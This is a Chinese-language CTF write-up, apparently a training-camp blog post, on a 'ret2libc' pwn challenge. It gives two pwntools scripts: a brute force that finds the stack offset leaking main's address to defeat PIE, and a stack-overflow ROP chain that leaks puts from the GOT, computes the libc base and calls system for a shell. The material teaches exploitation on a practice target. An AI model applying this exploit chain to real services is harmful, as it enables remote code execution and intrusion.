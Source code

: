 ```yaml
---
title: 赛博协会训练营 - ret2libc
date: 2023/12/3 12:00:00
tags:
    - noob
---
```


from cbctf starter 2023

## 文件分析

下载`ret2libc`, NX on, PIE on, RELRO full  
ghidra分析为64位程序

## 解题思路

main函数中先是scan了一个int，可以利用它来*泄露main的地址*以找到PIE偏移  
然后一个read提供*栈溢出*的空间  
和ciscn那题一样，就能完成ret2libc

## EXPLOIT

通过爆破获取main的偏移，如果打印出来的地址以0000结尾，则爆破成功

```python
# inserted in the code block below
for offset in range(8, 128, 8):
    sh = remote(???, 10022)
    sh.sendline(str(offset).encode())
    data = sh.recvline()
    data = sh.recvuntil(b'sh')
    pieBase = u64(data[-8:-2] + b'\0\0') - main
    print(hex(pieBase))
    sh.close()
```

```python
from pwn import *
sh = remote('???', 10022)
elf = ELF('ret2libc')

sh.sendline(b'56') # Locating address of main on stack
sh.recvline() # skip
data = sh.recvuntil(b'sh')

main = elf.symbols['main']
pieBase = u64(data[-8:-2] + b'\0\0') - main
putsPlt = pieBase + elf.plt['puts']
putsGot = pieBase + elf.got['puts']
popRdiAddr = pieBase + 0x923
mainAddr = pieBase + main

print(hex(pieBase))

# payload 1
sh.sendline(b'0'*0x18 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(mainAddr))

sh.recvuntil(b'shoot!\n') # skip
data = sh.recvline()

# 题中已给出libc
libcBase = u64(data[:6] + b'\0\0') - 0x80970
systemAddr = libcBase + 0x4f420
shstrAddr = libcBase + 0x1b3d88
retAddr = pieBase + 0x8bb

sh.sendline(b'0') # 埋伏我一手
# payload 2
sh.sendline(b'0'*0x18 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

sh.interactive()
```

## 本题获得的教训

由于远端libc的不同，main在stack上的地址也是不一样的

Done.
